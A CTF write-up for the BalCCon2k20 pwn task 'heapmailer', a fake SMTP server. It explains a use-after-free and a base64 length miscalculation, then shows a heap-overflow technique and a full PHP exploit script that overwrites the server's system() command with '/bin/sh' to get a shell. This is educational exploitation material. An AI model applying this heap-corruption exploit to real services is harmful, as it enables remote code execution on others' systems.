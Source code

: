 # heapmailer - BalCCon2k20 CTF (pwn, 497p, 1 solved)
## Introduction

heapmailer is a pwn task.

An archive containing a Linux binary and a libc is provided.

The binary is a C++ binary emulating an SMTP server.

## Reverse engineering

The binary uses a custom linked list structure :
```c
struct list {
	struct list *next;
	size_t size;
	char   data[0];
};
```

It uses this structure to store mostly strings. The size is `0x10 + size`. It
can also store other kind of data, such as pointers.

There are 2 linked lists recipients and data chunk.

The server handles 5 different commands :
- `HELP` prints the help
- `FROM` changes the user's identity
- `RCPT` push a new structure on the recipient list
- `RCRM` removes a structure from the recipient list
- `CHNK` decodes a base64 string and pushes its content to the chunk list
- `POPC` removes the last entry from the chunk list
- `SEND` calls `system(command)`, with `command` being loaded at start

The `FROM` command has a use-after-free vulnerability : when the user first sets
its identity, and then changes it without specifying a name, the program will
free its current identity without clearing the pointer.
```cpp
cout << "New identity: ";
inputSize = readInput(input);

/* Free current identity */
if(user->next != nullptr)
	delElt(user->next);

/* Executed only if there is a name ! */
if(input[0] != 0) {
	struct list *list;

	/* Create a new element that contains the user's input */
	list = newElt(inputSize);
	copyString(input, input + inputSize, &list->data);

	user->next = list;
}
```

The `CHNK` command does not handle properly base64 without padding.
```cpp
struct list *list;

cout << "Base64-encoded data: ";
inputSize = readInput(input);

list = newElt(((inputSize - 1) / 4) * 3);
/* [...] */
chunks = list;
b64decode(input, &list->data);
```

The problem is that the division operator returns the quotient of the Euclidean
division. For example : in `inputSize` contains 99 A and a new line, the result
of the operation will be :
```
x = (100 - 1) / 4 * 3
x = 99 / 4 * 3
x = 24 * 3
x = 96 == 0x60
```

Decoding this payload will overwrite 2 bytes of the next chunk.

The `SEND` command calls `system` on a string that gets read from a file.
The content of this file is stored on the heap.


## Exploitation

It is obvious that the expected solution here is to overwrite the command buffer
and hijack the call to `system` with a different payload.

The heap layout looks something like this :
```
0x000000: tcache (0x250)
0x000250: ? big (0x11c10)
0x011e60: command pointer (0x20)
0x011e80: ? 0x230
0x0120b0: ? 0x20
0x0120d0: std::cout buffer (0x410)
0x0124e0: free (0x1be0)
0x0140c0: free (was: command buffer) (0x30)
0x0140f0: command content (0x40)
```

The idea is to split the free buffer at `0x124e0` in two. By using the base64
vulnerability, it is possible to overwrite the next chunk's size to a size
larger than its actual size.

This oversized free chunk can then be used to create a new chunk that will spray
`/bin/sh\0` all over the command buffer.

The only requirement is to create a fake chunk before corrupting the size to
fool glibc's security checks :

```
0x0124e0: free
...
0x0140F0: command
...
0x016000: 0x0000000000001C70 0x0000000000000020
0x016010: 0x0000000000001C70 0x0000000000000020
0x016020: 0x0000000000001C70 0x0000000000000020
0x016030: 0x0000000000001C70 0x0000000000000020
0x016040: 0x0000000000001C70 0x0000000000000020
0x016050: 0x0000000000001C70 0x0000000000000020
0x016060: 0x0000000000001C70 0x0000000000000020
0x016070: 0x0000000000001C70 0x0000000000000020
...
```

`0x20` is the smallest size a chunk can have. Its `PREV_INUSE` bit is not set.
`0x1C70` is the `prev_size` which has to match the corrupted chunk's size.

Once the command has been overwritten, a simple use of the `SEND` command
launches the payload.

Now, an attentive reader might ask :
> But what about that use-after-free explained before ?

which is a very good question.


**Flag**: `BCTF{sorry_that_mail_is_not_gonna_arrive}`

## Appendices
### pwn.php

```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "/mnt/ctf/tools/pwn/phplib/tubes/Socket.php";

const HOST = "pwn.institute";
const PORT = 13201;
const SIZE = 0x1C70;

function chnk(Tube $t, $data)
{
	$t->expect("Anonymous ~> ");
	$t->write("CHNK\n");

	$t->expect("Base64-encoded data: ");
	$t->write("$data\n");
}

printf("[*] Creating process\n");
$time = microtime(true);

$t = new Socket(HOST, PORT);

$t->expectLine("------------------------------------------------------------");
$t->expectLine("| H.E.A.P. Mailer v1 - Highly Efficient Arbitrary Protocol |");
$t->expectLine("------------------------------------------------------------");
$t->expectLine("");
$t->expectLine("  Enter HELP to display a list of commands.");
$t->expectLine("");

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");


printf("[+] Spray next chunk\n");
$payload = str_repeat(pack("Q*", SIZE, 0x20), 0x800); 
$payload = base64_encode($payload);
chnk($t, $payload);

printf("[+] Corrupt size\n");
$payload = str_repeat("\x00", 0x48) . pack("v", SIZE | 1);
$payload = rtrim(base64_encode($payload), "=");
chnk($t, $payload);

printf("[+] Overwrite stuff\n");
$payload = str_pad("/bin/sh", 8, "\x00");
$payload = str_repeat($payload, (SIZE - 0x10 - 0x08) / 8);
$payload = rtrim(base64_encode($payload), "=");
chnk($t, $payload);


/* Get shell */
$t->expect("Anonymous ~> ");
$t->write("SEND\n");

printf("[!] shell\n");
$t->pipe();
```